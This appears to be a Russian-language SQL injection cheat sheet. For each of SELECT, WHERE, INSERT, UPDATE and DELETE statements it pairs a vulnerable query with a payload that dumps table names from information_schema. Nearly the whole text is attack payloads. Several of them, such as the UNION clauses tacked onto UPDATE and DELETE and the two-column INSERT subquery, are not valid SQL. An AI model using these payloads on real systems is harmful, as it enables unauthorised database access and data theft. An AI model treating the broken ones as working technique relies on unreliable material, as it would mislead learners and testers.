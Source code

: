 ### Инъекция в `SELECT`

- **Пример уязвимого запроса:**
```
SELECT input FROM users;
```

- **Payload для вывода всех таблиц:**
```
table_name FROM information_schema.tables -- 
```
- Возвращает имена таблиц вместо исходного столбца.

----

### Инъекция в `WHERE`

- **Пример уязвимого запроса:**
```
SELECT * FROM users WHERE id = input;
```

- **Payload для вывода всех таблиц:**
```
1 UNION SELECT table_name, NULL FROM information_schema.tables -- 
```

---

### Инъекция в `INSERT`

- **Пример уязвимого запроса:**
```
INSERT INTO users (username, password) VALUES ('input1', 'input2');
```

- **Payload для вывода всех таблиц:**
```
'), (SELECT table_name, NULL FROM information_schema.tables) -- 
```
- Добавляет вторую строку с именами таблиц.

---

### Инъекция в `UPDATE`

- **Пример уязвимого запроса:**
```
UPDATE users SET password = 'input' WHERE id = 1;
```

- **Payload для вывода всех таблиц:**
```
' WHERE 1=1 UNION SELECT table_name, NULL FROM information_schema.tables -- 
```

---

### Инъекция в `DELETE`

- **Пример уязвимого запроса:**
```
DELETE FROM users WHERE id = input;
```

- **Payload для вывода всех таблиц:**
```
1 OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables --
```

----